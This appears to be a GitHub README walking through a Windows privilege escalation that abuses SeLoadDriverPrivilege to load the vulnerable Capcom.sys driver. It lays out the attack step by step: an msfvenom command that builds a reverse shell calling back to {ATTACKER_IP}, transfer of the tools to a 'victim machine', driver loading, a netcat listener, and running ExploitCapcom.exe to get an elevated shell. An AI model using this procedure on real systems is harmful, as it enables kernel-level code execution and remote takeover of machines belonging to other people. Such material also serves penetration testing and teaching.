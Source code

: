 # SeLoadDriverPrivilege Privilege Escalation

**Description**<br />
The `SeLoadDriverPrivilege` speifies the users who are allowed to dynamically load device drivers. The activation of this policy in the context of non-privileged users implies a significant risk due to the possibility of executing code in kernel space. 

**Step 1**<br />
Check if you have `SeLoadDriverPrivilege`.<br />
![alt text](https://i.imgur.com/sAmHWeY.png) 

**Step 2**<br />
Clone this repo.<br /><br />

**Step 3**<br />
Compile a reverse shell with `msfvenom` into a file called `rev.exe.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST={ATTACKER_IP} LPORT=4444 -f exe -o rev.exe
```
<br />

**Step 4**<br />
Transfer `Capcom.sys`, `LoadDriver.exe`, `rev.exe` and `ExploitCapcom.exe` to victim machine.<br /><br />

**Step 5**<br />
Invoke `LoadDriver.exe`. This should return `NTSTATUS: 00000000, WinError: 0`. If it doesn't try changing the location of `Capcom.sys` or where you are executing `LoadDriver.exe`
```
.\LoadDriver.exe System\CurrentControlSet\MyService {C:\Users\Test\Capcom.sys}
```
![alt text](https://i.imgur.com/IYNL0u9.png) 

**Step 6**<br />
Start a `netcat` listener on port 4444
<br />

**Step 7**<br />
Put `rev.exe` in `C:\Windows\temp\rev.exe` and execute `ExploitCapcom.exe`. `C:\Windows\temp\rev.exe` is the default location the program will search for the reverse shell executable.
```
.\ExploitCapcom.exe
```

 You can also specify your own path to the reverse shell like so:
 ```
 .\ExploitCapcom.exe C:\Windows\Place\to\reverseshell\rev.exe
 ```
